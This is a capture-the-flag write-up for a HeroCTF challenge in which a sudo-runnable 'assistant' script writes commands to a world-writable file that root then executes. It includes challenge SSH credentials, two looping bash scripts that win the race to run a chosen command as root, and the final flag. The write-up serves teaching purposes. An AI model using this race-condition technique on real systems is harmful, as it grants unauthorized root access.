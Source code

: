 # Assistant

### Category

System

### Description

Welcome ! This machine is equiped with the next generation personnal assistant technology. Make good use of it ;)

```shell
$ ssh brian@chall0.heroctf.fr -p 5000
password : here_to_assist
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Hints

 - Don't forget to check what you can run as root without password

### Write up

In this challenge, you can run the script `/bin/assistant.py` as root. Let's take a look at the script.

Depending on what you input, a different command will be written inside a file called **order.cmd**. This file is world writable. Finally it calls another python script `/root/run.py` which we can't read.

Now we run the script `sudo /bin/assistant.py` but there is no trace of **order.cmd**. The other script probably deletes it. But as the first script mentions, there is now a **output.txt** file which contains the output of the command we chose.

If you run the second choice (`id`) you'll see that every thing is ran as root, even on the second script (python does not naturally drop privileges). 

If you run the third choice (`cat /root/path.txt`) you'll get the path of the flag. It's very unusual, and would it would have been hard to spot on our own : `/lib/udev/rules/d/02-uaccesss.rules`.

So are we going to read this file ? We can't write our own **order.cmd** because the first script deletes it before doing any writing. We'll have to exploit a "*race condition*".

A race condition defines a situation where the final outcomes depends on the order in which the same actions are conducted. In some cases, it can be used to quickely write critical data for an application.

In this case, there is a fraction of second where **order.cmd** exist, and can be written before it's read by `/root/run.py`.

Take the following bash script :
```bash
while :
do
	echo 'cat /lib/udev/rules.d/02-uaccesss.rules' > /home/brian/order.cmd
done
 ```

 It basically continuously writes int the **order.cmd**, so that in the short lap of time where the first script is done and the second reads the data, it got replaced. We could get creative with the payload, but this serves our purpose.

```
>> ./race.sh &

>> sudo /bin/assistant.py
```

Run the exploit in background, and run the assistant, chose any command you want and get your flag in **output.txt**. You may have to run the assistant a few times. The timing is very short, and it can occure the `race.sh` doesn't write at the right moment.

PS :

If the race never works, it's because the CPU in too fast, here is an alternantive :

```bash
while :
do	
	if [ -f '/home/brian/order.cmd' ]; then
		if ! grep -q "cat /lib" /home/brian/order.cmd
		then
    			echo 'cat /lib/udev/rules.d/02-uaccesss.rules' > /home/brian/order.cmd
		fi
	else
		echo 'cat /lib/udev/rules.d/02-uaccesss.rules' > /home/brian/order.cmd
	fi
done
```

### Flag

```Hero{c4r3fUl1_w1th_R4cE_c0nd1tI0nS}```
